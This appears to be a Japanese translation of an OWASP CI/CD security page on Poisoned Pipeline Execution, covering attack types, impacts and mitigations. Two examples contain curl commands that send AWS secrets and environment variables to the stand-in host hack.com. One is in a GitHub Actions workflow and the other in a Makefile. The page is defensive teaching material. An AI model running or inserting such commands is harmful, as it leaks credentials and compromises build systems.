


---

layout: col-sidebar
title: "CICD-SEC-4: 有毒なパイプライン実行 (Poisoned Pipeline Execution (PPE))"

---
## 定義


有毒なパイプライン実行 (Poisoned Pipeline Execution, PPE) のリスクとは攻撃者がソースコード管理システムにアクセスでき、ビルド環境にアクセスすることなく、ビルドパイプラインの設定に悪意のあるコードやコマンドを注入してビルドプロセスを操作する能力を指します。基本的にパイプラインを「有毒化」して、ビルドプロセスの一環として悪意のあるコードを実行します。


## 解説

PPE ベクトルは SCM リポジトリに対するパーミッションを悪用し、CI パイプラインに悪意のあるコマンドを実行させる方法です。

CI 構成ファイルや CI パイプラインジョブが依存するその他のファイルを操作するパーミッションを持つユーザーは、悪意のあるコマンドを含むようにそれらを改変し、最終的にこれらのコマンドを実行する CI パイプラインを「有毒化」できます。

レビューされていないコードを実行するパイプライン、例えばプルリクエストや任意のリポジトリブランチへのコミットを直接トリガーするパイプラインは、PPE の影響を受けやすくなります。なぜならこれらのシナリオは、設計上、レビューや承認を経ていないコードを含まれているためです。

CI パイプライン内で悪意のあるコードを実行できるようになると、攻撃者はパイプラインの ID のコンテキスト内でさまざまな悪意のある操作を実行できます。

PPE には 3 つのタイプがあります。

**直接 PPE (Direct PPE, D-PPE):** D-PPE シナリオでは、攻撃者はリポジトリ上の保護されていないリモートブランチに直接変更をプッシュするか、ブランチまたはフォークからの変更で PR を送信して、アクセスできるリポジトリ内の CI 構成ファイルを改変します。CI パイプラインの実行は「プッシュ」または「PR」イベントによってトリガーされ、パイプラインの実行は改変された CI 構成ファイル内のコマンドによって定義されるため、ビルドパイプラインがトリガーされると、攻撃者の悪意のあるコマンドは最終的にビルドノードで実行されます。

**間接 PPE (Indirect PPE, I-PPE):** 場合によっては、SCM リポジトリにアクセスできる攻撃者が D-PPE を利用できない可能性があります。


* 同じリポジトリ内の別の保護されたブランチから CI 構成ファイルをプルするようにパイプラインが構成されている場合。
* CI 構成ファイルをソースコードとは別のリポジトリに保存し、ユーザーが直接編集できない場合。
* CI ビルドをソースコードに保存されるファイルではなく、CI システム自体に定義した場合。

このようなシナリオでも、攻撃者はパイプライン構成ファイルが参照するファイルに悪意のあるコードを注入してパイプラインを有毒化できます。以下に例を示します。


* _make_: 「Makefile」ファイルで定義されたコマンドを実行します。
* ソースコード自体と同じリポジトリに保存されている、パイプライン構成ファイル内から参照されるスクリプト (例: _python myscript.py_ - ここで myscript.py が攻撃者によって操作されるでしょう) 。
* コードテスト: ビルドプロセス内のアプリケーションコードで動作するテストフレームワークは、ソースコード自体と同じリポジトリに保存されている特定のファイルに依存しています。テスト用のコードを操作できる攻撃者はビルド内で悪意のあるコマンドを実行できます。
* 自動ツール: CI で使用されるリンターやセキュリティスキャナも一般的にリポジトリにある構成ファイルに依存しています。多くの場合、これらの構成には構成ファイルに定義された場所からの外部コードのロードと実行が含まれます。

そのため、パイプライン定義ファイルに直接悪意のあるコマンドを挿入してパイプラインを有毒化するのではなく、I-PPE で、攻撃者は構成ファイルによって参照されるファイルに悪意のあるコードを注入します。悪意のあるコードはパイプラインがトリガーされると最終的にパイプラインノード上で実行され、当該のファイルで宣言されたコマンドを実行します。

**公開 PPE (Public-PPE, 3PE):** PPE 攻撃を実行するにはパイプライン構成ファイルをホストするリポジトリやそれが参照するファイルへのアクセスが必要です。多くの場合、そのパーミッションは組織メンバー (主にエンジニア) に与えられます。したがって、一般的に攻撃者は直接 PPE や間接 PPE 攻撃を実行するためにエンジニアのリポジトリへのパーミッションを所有する必要があります。

しかし、CI パイプラインの有毒化はインターネット上の匿名攻撃者でも可能なことがあります。パブリックリポジトリ (オープンソースプロジェクトなど) は任意のユーザーが貢献できることがよくあり、通常はプルリクエストを作成したり、コードの変更を提案したりできます。一般的にこれらのプロジェクトはプライベートプロジェクトと同様に CI ソリューションを使用して自動的にテストおよびビルドされます。

パブリックリポジトリの CI パイプラインが匿名ユーザーによって提案されたレビューされていないコードを実行する場合、Public PPE 攻撃、略称 3PE の影響を受けやすくなります。また、脆弱なパブリックリポジトリのパイプラインがプライベートリポジトリと同じ CI インスタンス上で動作している場合、プライベートプロジェクトのシークレットなどの内部資産も公開されます。


**事例**

<span style="text-decoration:underline;">例 1: Direct-PPE (GitHub Actions) による認証情報の窃取</span>

以下の例では、GitHub リポジトリを GitHub Actions ワークフローに接続して、コードをフェッチし、ビルドし、テストを実行し、最終的にアーティファクトを AWS にデプロイしています。

新しいコードがリポジトリ内のリモートブランチにプッシュされると、パイプラインの構成ファイルを含むコードがランナー (ワークフローコード) によってフェッチされます。


```YAML
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - run: |
         echo "building..."
         echo "testing..."
         echo "deploying..."
```




このシナリオでは、D-PPE 攻撃は以下のように実行されます。


1. 攻撃者はリポジトリに新しいリモートブランチを作成します。GitHub 組織にスコープした AWS 認証情報にアクセスし、それらをリモートサーバーに送信することを目的とした悪意のあるコマンドでパイプライン構成ファイルを更新します。

```YAML
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - env:
         ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
         SECRET_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

       run: |
         curl -d creds="$(echo $ACCESS_KEY:$SECRET_KEY | base64 | base64)" hack.com

```


2. 更新がプッシュされると、悪意のあるパイプライン構成ファイルを含むコードをリポジトリからフェッチするパイプラインをトリガーします。
3. パイプラインは攻撃者によって「有毒化」された構成ファイルに基づいて実行されます。攻撃者の悪意のあるコマンドに従って、リポジトリシークレットとして保存されている AWS 認証情報がメモリにロードされます。
4. パイプラインは攻撃者のコマンドを実行し、AWS 認証情報を攻撃者がコントロールするサーバーに送信します。
5. そうして、攻撃者は盗んだ認証情報を使用して AWS 本番環境にアクセスできます。

<span style="text-decoration:underline;">例 2: Indirect-PPE (Jenkins) による認証情報の窃取</span>

今回は、リポジトリからコードをフェッチし、ビルドし、テストを実行し、最終的に AWS にデプロイする Jenkins パイプラインです。このシナリオでは、パイプラインを記述するファイル (Jenkinsfile) は常に保護されているリポジトリのメインブランチからフェッチされるようなパイプライン構成になっています。したがって、攻撃者はビルド定義を操作できません。つまり、Jenkins のクレデンシャルストアに保存されているシークレットをフェッチしたり、他のノードでジョブを実行することは不可能です。

ただし、これはパイプラインにリスクがないことを意味するものではありません。

パイプラインの _build_ ステージでは、AWS 認証情報は環境変数としてロードされ、このステージで実行されるコマンドでのみ利用できるようになります。以下の例では、Makefile (これもリポジトリに保存されています) の内容に基づいて _make_ コマンドがこのステージの一部として実行されます。

Jenkinsfile:


```GROOVY
pipeline {
   agent any
   stages {
       stage('build') {
           steps {
               withAWS(credentials: 'AWS_key', region: 'us-east-1') {
                       sh 'make build'
                       sh 'make clean'
               }
           }
       }
       stage('test') {
           steps {
               sh 'go test -v ./...'
...
```


Makefile:


```MAKEFILE
build:
   echo "building…"

clean:
   echo "cleaning…"
```



このシナリオでは、I-PPE 攻撃は以下のように実行されます。


1. 攻撃者は _Makefile_ ファイルに悪意のあるコマンドを追加して、リポジトリにプルリクエストを作成します。


```MAKEFILE
build:
   curl -d "$$(env)" hack.com

clean:
   echo "cleaning…"

```


2. パイプラインはリポジトリに対する PR でトリガーされるように構成されているため、Jenkins パイプラインがトリガーされ、悪意のある _Makefile_ を含むコードをリポジトリからフェッチします。
3. パイプラインはメインブランチに保存されている構成ファイルに基づいて実行されます。 _build_ ステージに入ると、元の Jenkinsfile で定義されているように AWS 認証情報を環境変数にロードします。次に _make build_ コマンドを実行し、_Makefile_ に追加した悪意のあるコマンドを実行します。
4. Makefile で定義された悪意のある _build_ 機能が実行され、AWS 認証情報を攻撃者がコントロールするサーバーに送信します。
5. そうして、攻撃者は窃取した認証情報を使用して AWS 本番環境にアクセスできます。


## 影響

PPE 攻撃が成功すると、攻撃者はレビューされていない悪意のあるコードを CI 内で実行します。これにより攻撃者は以下のようなビルドジョブと同じ能力とアクセスレベルを得ます。


* 環境変数として注入されたシークレットや CI に保存された追加のシークレットなど、CI ジョブが利用可能な任意のシークレットへのアクセス。コードのビルドとアーティファクトのデプロイを担当する CI/CD システムには一般的に、クラウドプロバイダ、アーティファクトレジストリ、SCM 自体などへの価値の高い認証情報やトークンが多数含まれています。
* ノードのファイルシステムに保存されているファイルや、基盤となるホストを介してアクセスできるクラウド環境への認証情報など、ジョブノードがパーミッションを持つ外部資産へのアクセス。
* ビルドプロセスによってビルドされた正当なコードを装って、パイプラインにコードやアーティファクトを出荷する能力。
* ジョブノードのネットワークや環境内で追加のホストや資産にアクセスする能力。

## 推奨事項

PPE 攻撃ベクトルを防止および軽減するには SCM システムと CI システムの両方にまたがる複数の対策が必要です。


* レビューされていないコードを実行するパイプラインは分離したノードで動作するようにし、シークレットや機密性の高い環境に開示されないようにします。
* 外部コントリビュータからパブリックリポジトリでパイプラインをトリガーする必要性を評価します。可能であれば、フォークを起点とするパイプラインの実行を控え、パイプラインの実行には手動の承認を要求するなどのコントロールを追加することを検討します。
* 例えばシークレットへの開示など、機密性の高いパイプラインでは、CI システムでパイプラインをトリガーするように構成されている各ブランチが、SCM で相関するブランチ保護ルールを持つようにします。
* CI 構成ファイルが操作されてパイプラインで悪意のあるコードが実行されることを防ぐには、パイプライン実行前に各 CI 構成ファイルを必ずレビューするようにします。あるいは、CI 構成ファイルをリモートブランチで管理し、パイプラインをビルドするコードを含むブランチと分離します。リモートブランチは保護されるように構成する必要があります。
* SCM リポジトリに付与されたパーミッションについてそれを必要としないユーザーから削除します。
* 各パイプラインはその目的を果たすために必要な認証情報にのみアクセスできるようにします。認証情報は必要最小限の権限を持つようにします。


## 参考情報


1. DEF CON 25, Tyler Welton による継続的インテグレーションと自動ビルドシステムのエクスプロイト。この講演ではレビューされていないコードを実行するパイプラインを標的とした Direct-PPE および 3PE 攻撃ベクトルのエクスプロイト技法について説明しています。

    [https://www.youtube.com/watch?v=mpUDqo7tIk8](https://www.youtube.com/watch?v=mpUDqo7tIk8)

2. [Daniel Krivelevich](https://twitter.com/Dkrivelev) と [Omer Gil](https://twitter.com/omer_gil) による有毒なパイプライン実行 (PPE - Poisoned Pipeline Execution) 。CI にアクセスせずに、CI 内で悪意のあるコードを実行します。

    [https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/)

3. [xssfox](https://twitter.com/xssfox) によるビルドパイプラインセキュリティ。AWS に属するウェブサイトの CodeBuild パイプラインでの Indirect-PPE 脆弱性が公開されました。これにより、匿名の攻撃者がビルド構成ファイルによって実行されるスクリプトを改変するプルリクエストを作成し、結果としてデプロイメント認証情報を侵害できました。

    [https://sprocketfox.io/xssfox/2021/02/18/pipeline/](https://sprocketfox.io/xssfox/2021/02/18/pipeline/)

4. GitHub Actions が悪用され、悪意のあるコードを含むプルリクエストによって暗号通貨をマイニングされました。

    [https://dev.to/thibaultduponchelle/the-github-action-mining-attack-through-pull-request-2lmc](https://dev.to/thibaultduponchelle/the-github-action-mining-attack-through-pull-request-2lmc)

5. [Hiroki Suezawa](https://twitter.com/rung) による、パイプラインで _terraform plan_ の実行中に OS コマンドを実行する terraform プロバイダ。

    [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

6. [Alex Kaskasoli](https://twitter.com/alxk7i) による、CI/CD で OS コマンドを実行するための _terraform plan_ コマンドの悪用。

    [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

7. Teleport の CI 実装に見つかった脆弱性により、インターネットからの攻撃者が Drone CI パイプラインにリンクされたパブリック GitHub リポジトリでプルリクエストを作成し、CI 構成ファイルを改変して悪意のあるパイプラインを実行することで、Direct-3PE 攻撃を実行できました。

    [https://goteleport.com/blog/hack-via-pull-request/](https://goteleport.com/blog/hack-via-pull-request/)

8. Asier Rivera Fernandez の研究で AWS の CodePipeline, CodeBuild, CodeDeploy サービスを含む CI/CD 環境に対する PPE 攻撃が実行可能であることが示されました。

    [https://www.youtube.com/watch?v=McZBcMRxPTA](https://www.youtube.com/watch?v=McZBcMRxPTA)
    [https://www.pwc.be/en/FY21/documents/AWS%20CI_CD%20technical%20article%20-%20v3.pdf](https://www.pwc.be/en/FY21/documents/AWS%20CI_CD%20technical%20article%20-%20v3.pdf)
